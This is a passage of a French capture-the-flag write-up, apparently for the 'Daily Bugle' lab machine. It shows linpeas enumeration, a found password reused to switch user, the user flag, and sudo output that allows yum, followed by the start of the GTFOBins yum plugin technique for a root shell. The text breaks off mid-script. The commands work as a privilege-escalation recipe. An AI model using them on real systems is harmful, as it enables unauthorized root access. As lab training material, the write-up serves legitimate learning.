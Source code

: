
...
```

On transfère un outil d'énumération linpeas.sh.
On rend exécutable.  
On le lance et il nous trouve le mot de passe : nv5uz9r3ZEDzVjNu 

```bash
bash-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu

[jjameson@dailybugle tmp]$ cd /home/jjameson/
cd /home/jjameson/
[jjameson@dailybugle ~]$ ls
ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt	
cat user.txt
27a260fe3cba712cfdedb1c86d80442e   
```

On se connecte sur le compte de jjameson.   
On lit le fichier user.txt dans le répertoire /home/jjameson/  
Le flag est : 27a260fe3cba712cfdedb1c86d80442e   

**What is the root flag?**  

```bash
[jjameson@dailybugle ~]$ sudo -l
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
    
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

On voit que la configuration sudo permet d'exécuter yum avec les droits roots.  

[yum exploit](https://gtfobins.github.io/gtfobins/yum/) 

gtfobins nous explique comment avoir un shell root avec yum.  

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
```